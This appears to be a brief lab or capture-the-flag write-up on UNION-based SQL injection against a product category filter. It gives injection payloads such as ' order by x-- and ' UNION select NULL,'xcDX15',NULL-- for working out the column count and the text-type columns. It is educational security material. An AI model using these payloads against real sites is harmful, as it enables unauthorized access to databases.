

**SQL Injection: Product category filter**
*- Goal: determine the number of columns returned by the query and the data type of columns*

*- Review and rule:*
> 1. The number and the order of the columns must be the same in all queries

> 2. The data types must be compatible
**STEP #1: Determin number of columns**

*- SQLi attack (way#1):*
`select ? from table 1 UNION select NULL`
 
> return error: incorrect number of columns

`select ? from table1 UNION select NULL,NULL,...`

> return 200 response code 
-> coreect number of columns

*-SQLi attack (way#2):*
`select a,b from talbe1 order by 3`
**STEP #2: Determin the data type of the columns**

`SELECT a,b,c from table1 UNION SELECT NULL, NULL,'a'`
> return error: column is not type text

> no error: column is of type text

*- Analyse: *
1. ' order by x--: determine number of columns --> 3 columns
2. UNION attack 'UNION select x,y,z--, try x,y,z belong in {NULL,'a'}
   ' UNION select NULL,'xcDX15',NULL-- -> return no error -> column 2 has type of text
*`LAB SOLVED`*
